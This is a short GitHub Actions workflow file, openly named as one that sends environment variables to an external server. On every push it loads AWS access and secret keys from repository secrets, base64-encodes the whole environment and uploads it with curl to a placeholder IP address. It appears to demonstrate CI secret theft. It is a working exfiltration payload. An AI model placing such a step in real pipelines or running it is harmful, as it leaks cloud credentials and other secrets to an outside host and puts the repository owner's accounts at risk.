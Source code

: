 name: Workflow to send env variables to external server
on: push
jobs:
  first-job:
    env:
      AWS_ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY }}
      AWS_SECRET_KEY: ${{ secrets.AWS_SECRET_KEY }}
    runs-on: ubuntu-latest
    steps:
      - name: sleep
        run: sleep 10
      - name: test
        run: test=`env | base64 > test.txt`;curl -X POST http://<IP_Address>:8000/upload --data-binary @test.txt
